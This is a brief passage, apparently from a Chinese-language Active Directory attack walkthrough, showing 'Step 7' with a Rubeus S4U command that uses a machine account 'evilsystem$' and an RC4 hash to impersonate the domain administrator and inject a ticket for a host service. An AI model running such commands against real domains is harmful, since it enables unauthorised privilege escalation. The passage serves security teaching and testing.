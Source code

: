 [![](assets/1705982146-e9604bf3f75c2df6ff8b292a0455f35a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240120224017-d44fe318-b7a1-1.png)  
Step 7：导入 HOST 票据

```bash
Rubeus.exe s4u /user:evilsystem$ /rc4:B1739F7FC8377E25C77CFA2DFBDC3EC7 /impersonateuser:administrator /msdsspn:host/win7-test /ptt
```
